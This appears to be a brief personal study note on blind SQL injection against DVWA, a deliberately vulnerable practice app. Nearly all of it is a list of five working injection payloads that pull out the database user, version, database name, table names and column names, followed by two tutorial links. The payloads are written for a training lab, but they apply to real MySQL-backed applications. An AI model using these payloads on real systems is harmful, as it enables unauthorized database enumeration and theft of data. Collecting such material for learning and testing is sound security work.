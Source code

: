# Error-Based Blind Query SQL Injection

#blind-sql-injection #dvwa

TODO: Prepare with enumeration

1. Extract the current user:

```sql
' OR IF(1=1, (SELECT user()), 0)#
```

2. Extract the database version:

```sql
' OR IF(1=1, (SELECT @@version), 0)#
```

3. Extract the current database name:

```sql
' OR IF(1=1, (SELECT database()), 0)#
```

4. Extract tables from the current database:

```sql
' OR IF(1=1, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=database()), 0)#
```

5. Extract columns from a specific table:

```sql
' OR IF(1=1, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='<table_name>'), 0)#
```

## References

- [SQL Injection (Blind) [DVWA]](https://www.linkedin.com/pulse/sql-injection-blind-dvwa-nguyen-nguyen/)

- [Blind SQL Injection: An Expert’s Guide to Detect and Exploit](https://www.stationx.net/blind-sql-injection/)